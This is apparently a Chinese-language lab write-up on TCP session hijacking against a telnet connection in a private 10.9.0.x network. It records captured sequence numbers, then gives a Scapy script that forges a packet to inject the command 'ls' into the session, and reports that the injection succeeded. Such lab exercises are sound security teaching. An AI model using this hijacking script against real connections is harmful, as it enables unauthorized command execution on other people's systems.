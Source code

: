 包内信息：

ip4-src 10.9.0.2

ip4-dst 10.9.0.3

tcp-src 23

tcp-dst 41768

tcp_seqnum 4174647783 

tcp_acknum 1141611840

tcp-window 501

构造client发出新的包：

ip4-src 10.9.0.3

ip4-dst 10.9.0.2

tcp-src 41768

tcp-dst 23

tcp-seqnum 1141611840

tcp_acknum 4174647783 + 35 = 4174647818

tcp-window 501

hijacking_manual_simple.py

```python
#!/usr/bin/python3
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
ip  = IP(src="10.9.0.3", dst="10.9.0.2")
tcp = TCP(sport=41768, dport=23, flags="A", seq=1141611840, ack=4174647818)
data = "\n ls\n"
pkt = ip/tcp/data
send(pkt, verbose=0, iface="br-6c895804349d")

```

运行: `sudo python3 hijacking_manual_simple.py`

![image-20230417214036343](assets/image-20230417214036343.png)

运行结果：

输出了ls的结果
